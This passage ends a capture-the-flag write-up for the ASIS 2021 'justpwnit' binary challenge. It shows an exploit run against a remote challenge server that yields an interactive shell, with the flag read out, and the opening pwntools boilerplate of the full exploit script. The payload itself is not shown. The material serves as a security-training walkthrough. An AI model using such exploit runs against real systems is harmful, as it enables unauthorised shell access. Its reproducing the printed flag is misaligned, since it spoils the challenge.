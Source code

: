 And we can enjoy the shell !

```
➜  justpwnit git:(master) ✗ python3 exploit.py HOST=168.119.108.148 PORT=11010
[*] '/home/nasm/pwn/asis2021/justpwnit/justpwnit'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 168.119.108.148 on port 11010: Done
[*] Switching to interactive mode
$ id
uid=999(pwn) gid=999(pwn) groups=999(pwn)
$ ls
chall
flag-69a1f60d8055c88ea27fed1ab926b2b6.txt
$ cat flag-69a1f60d8055c88ea27fed1ab926b2b6.txt
ASIS{p01nt_RSP_2_h34p!_RHP_1n5t34d_0f_RSP?}
```

## Full exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfinit

import os
import time
import pwn


# Set up pwntools for the correct architecture
exe  = pwn.context.binary = pwn.ELF('justpwnit')
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False

host = pwn.args.HOST
port = int(pwn.args.PORT or 1337)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return pwn.process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)
```